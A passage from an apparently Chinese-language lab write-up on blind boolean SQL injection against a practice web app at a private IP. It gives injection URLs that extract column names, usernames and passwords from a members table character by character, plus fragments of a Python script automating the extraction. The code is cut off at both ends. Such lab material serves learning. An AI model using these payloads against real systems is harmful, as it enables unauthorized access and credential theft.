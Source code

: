 ``````
                        if j==0:
                            break
                        #print(j)
                        a+=chr(j)
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

![1559820377925](assets/1559820377925.png)

重新尝试爆破字段，改一下语句,用python来跑

```
http://10.1.0.239/products.php?type=1%20and(select%20ascii(mid((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27tblMembers%27%20limit%200,1),1,1)))=111
```

![1559820682538](assets/1559820682538.png)

再去爆破数据。
用户名

```
http://10.1.0.239/products.php?type=1%20and(select%20ascii(mid((select%20username%20from%20seattle.tblMembers%20limit%200,1),1,1)))=111
```

![1559821130952](assets/1559821130952.png)

密码

```
http://10.1.0.239/products.php?type=1%20and(select%20ascii(mid((select%20password%20from%20seattle.tblMembers%20limit%200,1),1,1)))=111
```

![1559821409047](assets/1559821409047.png)

最终代码如下，因为可能会因为字符长度过长导致时间过长的问题，就加了个判断d，这样40位的名字也可进行判断

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie': 'level=1','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3'}
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
``````